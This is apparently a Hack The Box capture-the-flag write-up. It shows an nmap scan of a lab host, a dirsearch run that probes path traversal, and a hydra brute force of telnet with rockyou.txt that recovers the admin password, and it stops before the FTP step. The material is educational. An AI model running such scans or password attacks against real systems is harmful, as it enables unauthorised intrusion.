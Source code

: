 ## ------------->> Access <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.98 -p-
--------

    Nmap scan report for 10.10.10.98
    Host is up (0.20s latency).
    Not shown: 65532 filtered ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: PASV failed: 425 Cannot open data connection.
    | ftp-syst: 
    |_  SYST: Windows_NT
    23/tcp open  telnet?
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: MegaCorp
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// Navigating to http://10.10.10.98/ represent us only with picture called "out.jpg"

![Image 1]()

// So i tried to search for some interesting directories or files with [dirsearch]()

    $ python3 dirsearch.py -u http://10.10.10.98 -t 100

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Target: http://10.10.10.98/

    [11:34:37] Starting: 
    [11:34:41] 403 -  312B  - /%2e%2e//google.com
    [11:34:53] 403 -    2KB - /Trace.axd
    [11:34:54] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
    [11:35:00] 403 -    1KB - /aspnet_client/
    [11:35:00] 301 -  156B  - /aspnet_client  ->  http://10.10.10.98/aspnet_client/
    [11:35:10] 200 -  391B  - /index.html

    Task Completed

// Didnt find there, so i moved on to service 'telnet' on port 23 and tried to brute force 'admin' password(Assumed admin user exist) with [hydra](https://tools.kali.org/password-attacks/hydra) and rockyou.txt

    $ hydra -l admin -P ../../../../wordlists--/rockyou.txt 10.10.10.98 telnet
-------

    $ hydra -l admin -P /wordlists/rockyou.txt 10.10.10.98 telnet
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-07 11:52:58
    [WARNING] telnet is by its nature unreliable to analyze, if possible better choose FTP, SSH, etc. if available
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking telnet://10.10.10.98:23/
    [STATUS] 62.00 tries/min, 62 tries in 00:01h, 14344337 to do in 3856:01h, 16 active
    [STATUS] 54.43 tries/min, 166 tries in 00:03h, 14344233 to do in 4392:34h, 16 active
    [STATUS] 52.34 tries/min, 369 tries in 00:07h, 14344030 to do in 4567:33h, 16 active
    [STATUS] 51.52 tries/min, 778 tries in 00:15h, 14343621 to do in 4639:52h, 16 active
    [23][telnet] host: 10.10.10.98   login: admin   password: jacob
-------

    admin : jacob

// When tried to connect to telnet with those creds its decline the request, moving on...

// Earlier with nmap scan we could see ther is FTP service open, lets check if we can connect anonymously






